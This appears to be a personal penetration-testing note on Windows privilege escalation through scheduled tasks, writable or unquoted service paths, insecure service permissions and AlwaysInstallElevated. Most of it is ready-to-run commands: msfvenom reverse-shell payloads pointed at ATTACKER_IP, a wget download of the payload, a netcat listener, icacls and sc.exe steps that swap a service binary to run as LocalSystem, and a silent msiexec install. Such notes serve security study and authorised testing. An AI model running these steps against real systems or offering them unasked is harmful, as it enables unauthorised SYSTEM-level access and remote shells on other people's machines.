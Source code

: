 Notes about privilege escalation on [[Windows]].

## Scheduled Tasks

[[Windows/Enumeration#Scheduled Tasks]]

Check scheduled tasks. Can you overwrite the executable being ran?

## Services

[[Windows/Enumeration#Windows Services]]

Check services. Can you overwrite the service executable?

Generate reverse shell payload on attacking computer:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o payload.exe
```

Run server on attacking computer (defaults to port `8000`):

```bash
python3 -m http.server
```

Download payload on target computer:

```powershell
wget http://ATTACKER_IP:8000/payload.exe -O payload.exe
```

Replace server executable with malicious payload:

```powershell
move payload.exe C:\target\location\service-name.exe
```

Grant permission to executable:

```powershell
icacls C:\target\location\service-name.exe /grant Everyone:F
```

Set up reverse listener on attacking computer:

```bash
nc -lvnp ATTACKER_PORT
```

Wait for service to run on target computer, or try to force restart if you have privileges:

```powershell
sc.exe stop <service-name>
sc.exe start <service-name>
```

Note: Use `sc.exe` in PowerShell or `sc` in Command Prompt.

## Unquoted service paths

[[Windows/Enumeration#Windows Services]]

Run `sc.exe qc <servicename`.

Check if the `BINARY_PATH_NAME` is missing quotes and spaces in path/filename, i.e. `C:\path\to\file name.exe` instead of `"C:\path\to\file name.exe"`. 

If the path has spaces and it is unquoted, you can exploit this. In this example, the service till try to find `file.exe` before it tries to find `file name.exe`, therefore you can put a malicious `file.exe` in the same folder.

## Insecure service permissions

Download [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) to check service permissions. Run `accesschk64.exe -qlc <servicename>`. Check for `SERVICE_ALL_ACCESS` permission, which means you can rewrite service configurations.

Get a malicious executable on the server.

Reconfigure the service to run the executable file:

```powershell
sc.exe config <servicename> binPath= "C:\path\to\malicious\file.exe" obj= LocalSystem
```

Wait for service to run on target computer, or try to force restart if you have privileges:

```powershell
sc.exe stop <servicename>
sc.exe start <service-name>
```

Note: Use `sc.exe` in PowerShell or `sc` in Command Prompt.

## AlwaysInstallElevated

[[Windows/Enumeration#AlwaysInstallElevated]]

Check if `AlwaysInstallElevated` is enabled.

Generate a malicious `.msi` on attacking computer, e.g. using `msvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f msi -o malicious.msi
```

Transfer the malicious `.msi`.

Execute on the target computer:

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Related

- [[Windows]]
- [[Windows/Enumeration]]